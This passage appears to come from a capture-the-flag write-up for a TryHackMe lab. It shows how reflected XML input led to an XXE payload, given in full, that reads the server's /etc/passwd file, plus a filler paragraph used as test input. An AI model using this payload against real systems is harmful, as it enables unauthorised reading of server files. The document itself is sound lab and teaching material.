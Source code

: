 ```bash
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>       
```

Sent the found XML as an xml parameter in the previous request, and observed that it was reflected in the response.

![xxe](../assets/img/posts/2024-11-02-post-thm-writeup-mustacchio/image-7.png)

This suggests that might vulnerable to XXE. So I executed a basic XXE payload using the previous XML to retrieve the contents of the /etc/passwd file

```text
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">] >
<comment>
	<name>A</name>
	<author>B</author>
	<com>&xxe;</com>
</comment>
```

The exploitation was successful, and can retrieve the contents of the /etc/passwd file.
